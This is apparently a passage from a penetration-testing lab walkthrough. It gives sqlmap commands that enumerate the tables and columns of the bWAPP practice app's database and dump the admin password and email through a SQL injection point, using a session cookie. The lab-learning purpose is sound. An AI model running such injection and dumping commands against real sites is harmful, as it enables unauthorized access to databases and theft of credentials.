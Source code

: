 ```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP --tables
```

![SQLMap Tables](.gitbook/assets/image-20230504193116155.png)

- Use `sqlmap` to get a list of columns in the `users` table of the `bWAPP` database

```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users --columns
```

![SQLMap Columns](.gitbook/assets/image-20230504193222954.png)

- Dump `password` and `email` for **admin** from the `users` table

```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump
```

